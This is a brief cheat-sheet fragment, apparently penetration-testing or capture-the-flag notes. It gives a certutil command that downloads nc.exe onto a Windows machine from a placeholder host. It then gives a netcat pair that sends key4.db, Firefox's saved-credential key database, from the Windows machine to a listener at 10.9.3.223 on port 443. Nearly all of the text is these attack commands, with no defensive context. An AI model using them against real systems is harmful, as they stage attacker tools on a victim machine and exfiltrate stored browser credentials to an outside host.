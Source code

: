 ### Download file in Windows Machine.

`certutil -urlcache -f http://<TARGET_IPADDRESS:<PORT>/nc.exe nc.exe`

### Transfer file from Windows Machine to Linux (netcat)

`nc -nv 10.9.3.223 443 < key4.db (on windows machine)`

`nc -nvlp 443 > key4.db (on Linux Machine)`
